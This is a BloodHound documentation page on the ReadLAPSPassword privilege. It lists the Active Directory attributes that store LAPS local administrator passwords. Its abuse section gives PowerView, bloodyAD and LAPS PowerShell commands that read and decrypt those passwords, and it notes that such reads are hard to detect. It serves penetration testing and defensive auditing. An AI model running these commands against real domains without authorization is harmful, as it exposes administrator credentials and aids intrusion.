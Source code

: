 ```yaml
---
title: ReadLAPSPassword
description: This privilege allows a principal to read the LAPS password from a computer.
---
```


<img noZoom src="/assets/enterprise-AND-community-edition-pill-tag.svg" alt="Applies to BloodHound Enterprise and CE"/>

For systems using legacy LAPS, the following AD computer object properties are relevant:

* **ms-Mcs-AdmPwd**: The plaintext LAPS password
* **ms-Mcs-AdmPwdExpirationTime**: The LAPS password expiration time

For systems using Windows LAPS (2023 edition), the following AD computer object properties are relevant:

* **msLAPS-Password**: The plaintext LAPS password
* **msLAPS-PasswordExpirationTime**: The LAPS password expiration time
* **msLAPS-EncryptedPassword**: The encrypted LAPS password
* **msLAPS-EncryptedPasswordHistory**: The encrypted LAPS password history
* **msLAPS-EncryptedDSRMPassword**: The encrypted Directory Services Restore Mode (DSRM) password
* **msLAPS-EncryptedDSRMPasswordHistory**: The encrypted DSRM password history

Abuse Info[](#h_01JF7GFQDMTP3E7C81G2M07PSF)
-------------------------------------------

 Plaintext attributes can be read using a simple LDAP client. For example, with PowerView:
```
Get-DomainComputer "MachineName" -Properties "cn","ms-mcs-admpwd","ms-mcs-admpwdexpirationtime"
```
 On Linux, using bloodyAD:
```
bloodyAD --host $DC_IP -d $DOMAIN -u $USER -p $PASSWORD get search --filter '(ms-mcs-admpwdexpirationtime=*)' --attr ms-mcs-admpwd,ms-mcs-admpwdexpirationtime
```
 Encrypted attributes can be decrypted using Microsoft's LAPS PowerShell module. For example:
```
Get-LapsADPassword "WIN10" -AsPlainText
```
The encrypted attributes can also be retrieved and decrypted using [lapsv2decrypt](https://github.com/xpn/RandomTSScripts/tree/master/lapsv2decrypt) (dotnet or BOF).

Opsec Considerations[](#h_01JF7GFQDMGRVY148EE69BHVVE)
-----------------------------------------------------

Reading properties from LDAP is extremely low risk, and can only be found using monitoring of LDAP queries.

References[](#h_01JF7GFQDMQX77QWZYKHS16G0B)
-------------------------------------------

* [https://www.specterops.io/assets/resources/an\_ace\_up\_the\_sleeve.pdf](https://www.specterops.io/assets/resources/an_ace_up_the_sleeve.pdf)
* [https://adsecurity.org/?p=3164](https://adsecurity.org/?p=3164)
* [https://learn.microsoft.com/en-us/powershell/module/laps/get-lapsadpassword](https://learn.microsoft.com/en-us/powershell/module/laps/get-lapsadpassword)
* [https://github.com/xpn/RandomTSScripts/tree/master/lapsv2decrypt](https://github.com/xpn/RandomTSScripts/tree/master/lapsv2decrypt)
* [https://github.com/CravateRouge/bloodyAD](https://github.com/CravateRouge/bloodyAD)
